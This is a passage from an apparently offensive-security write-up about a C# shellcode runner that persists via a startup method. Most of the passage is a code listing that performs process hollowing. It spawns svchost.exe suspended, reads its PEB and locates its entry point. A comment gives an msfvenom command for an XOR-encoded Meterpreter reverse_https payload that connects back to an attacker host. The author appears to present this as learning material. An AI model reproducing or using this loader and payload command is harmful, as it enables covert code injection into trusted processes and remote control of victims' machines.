 However, you may have noticed earlier that the shellcode runner code is no longer in the **Main** method.

That is because I wanted a separate method in **Program.cs** to carry out the process hollowing and run the shellcode.

So, I created a new method called **Run**.

This is where the call to **ExecOnStartup()** will be stored, only being called after the process hollowing has occurred:

```csharp
        static void Run()
        {
            STARTUPINFO si = new STARTUPINFO();
            PROCESS_INFORMATION pi = new PROCESS_INFORMATION();
            bool res = CreateProcess(null, "C:\Windows\System32\svchost.exe", IntPtr.Zero,
                IntPtr.Zero, false, 0x4, IntPtr.Zero, null, ref si, out pi);
            PROCESS_BASIC_INFORMATION bi = new PROCESS_BASIC_INFORMATION();
            uint tmp = 0;
            IntPtr hProcess = pi.hProcess;
            ZwQueryInformationProcess(hProcess, 0, ref bi, (uint)(IntPtr.Size * 6), ref tmp);
            IntPtr ptrToImageBase = (IntPtr)((Int64)bi.PebAddress + 0x10);
            byte[] addrBuf = new byte[IntPtr.Size];
            IntPtr nRead = IntPtr.Zero;
            ReadProcessMemory(hProcess, ptrToImageBase, addrBuf, addrBuf.Length, out nRead);
            IntPtr svchostBase = (IntPtr)(BitConverter.ToInt64(addrBuf, 0));
            byte[] data = new byte[0x200];
            ReadProcessMemory(hProcess, svchostBase, data, data.Length, out nRead);
            uint e_lfanew_offset = BitConverter.ToUInt32(data, 0x3C);
            uint opthdr = e_lfanew_offset + 0x28;
            uint entrypoint_rva = BitConverter.ToUInt32(data, (int)opthdr);
            IntPtr addressOfEntryPoint = (IntPtr)(entrypoint_rva + (UInt64)svchostBase);
            // Generate XOR shellcode with MSFVenom: msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.x.x LPORT=443 EXITFUNC=thread -f csharp --encrypt xor --encrypt-key z -i 20 | tr -d 'nr'
```